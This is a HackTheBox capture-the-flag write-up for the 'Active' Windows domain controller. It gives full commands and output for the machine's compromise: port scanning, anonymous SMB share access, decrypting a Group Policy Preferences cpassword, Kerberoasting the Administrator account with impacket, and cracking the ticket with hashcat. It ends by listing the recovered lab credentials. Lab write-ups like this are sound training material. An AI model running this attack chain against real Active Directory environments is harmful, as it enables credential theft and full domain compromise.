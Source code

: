 ```yaml
---
description: >-
  Active HTB Machine
title: Active (Easy)                # Add title here
date: 2023-02-09 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Easy]                     # Change Templates to Writeup
tags: [smb enumeration, smb full replication, gpp decryption, kerberoasting, hashcat, tgs cracking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Active.png                # Add infocard image here for post preview image
---
```

### Host entries
```bash
10.10.10.100  active.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- SMB Enumeration
- SMB Full share replication to local machine [[SMB Download]] `smbclient mget*`
- GPP Decryption
- Kerberoasting
- Hashcat TGS crack

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.100 ()   Status: Up
Host: 10.10.10.100 ()   Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49152/open/tcp//unknown///, 49153/open/tcp//unknown///, 49154/open/tcp//unknown///, 49155/open/tcp//unknown///, 49157/open/tcp//unknown///, 49158/open/tcp//unknown///, 49165/open/tcp//unknown///, 49166/open/tcp//unknown///, 49168/open/tcp//unknown///
```
Services and Versions running:
```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sCV -Pn -n -vvv -oN targeted 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up, received user-set (0.089s latency).
Scanned at 2023-02-09 00:37:51 EST for 73s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-09 05:37:58Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-02-09T05:38:55
|_  start_date: 2023-02-09T05:22:50
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38577/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51069/udp): CLEAN (Timeout)
|   Check 4 (port 38631/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```
Enumerating port 445 we identify that we have Read access to the Replication share:
```bash
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\: 
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share   Permissions  Remark
SMB 10.10.10.100 445 DC -----   -----------  ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$  Default share
SMB 10.10.10.100 445 DC IPC$Remote IPC
SMB 10.10.10.100 445 DC NETLOGON  Logon server share 
SMB 10.10.10.100 445 DC Replication  READ 
SMB 10.10.10.100 445 DC SYSVOL Logon server share
SMB 10.10.10.100 445 DC Users
```
We then enumerate the share, it has a lot of information within so we rather prefer to download the whole volume locally[^smb-download]: 
```bash
# First connect to the machine
smbclient //10.10.10.100/Replication -N
# Then turn off the Prompt and turn on the replicate function
smb: \> RECURSE ON
smb: \> PROMPT OFF
# Finally extract all the files
smb: \> mget *
```
We then check what info is within the share:
![Description](/assets/img/Pasted image 20230209005650.png)
### Exploitation
This structure is very similar to the SYSVOL share so we know that there is a Groups.xml, this file can have a GPP hash that can be decrypted: ^959fa1
```bash
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
And we can decrypt the cpassword with gpp-decrypt utility:
```bash
# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

### Privilege Escalation
Now, since we know that there is no port tcp-5985 to login directly open we can keep the enumeration on port tcp-445, the next share interesting is not SYSVOL but Users and this is its structure:
![Description](/assets/img/Pasted image 20230209010606.png)
After a deep enumeration, we couldn't identify any useful file that could provide a privesc or a lateral movement so we tried another approach which is a [[Kerberoasting (Service Account Attacks)]]. ^659f81
```bash
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-09 00:24:03.458965             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
d03f8fe0c361c57c9c755c7d8a1024dd38c4beaf73a3688eb2c103450979c4e729c0b6d21a44160b71cc6             
```
This means that we can extract a TGS ticket directly from the DC, and we successfully get it, so next thing to do is to crack it with [[Hashcat]]:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
hashcat (v6.2.5) starting


$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
f0cc1679087568696baa79fef670721b$0bd9f0addc75c15876fda2aae6fc4a9611250979c4e729c0b6d21a44160b71cc6:Ticketmaster1968
```
### Credentials
```bash
svc_tgs:GPPstillStandingStrong2k18
Administrator:Ticketmaster1968
```

### Notes

- We can extract a share with SMB directly by abusing of the [[SMB Download]] with SMBClient `mget *` functionality.

### References
[^smb-download]: Download an entire SMB share locally.



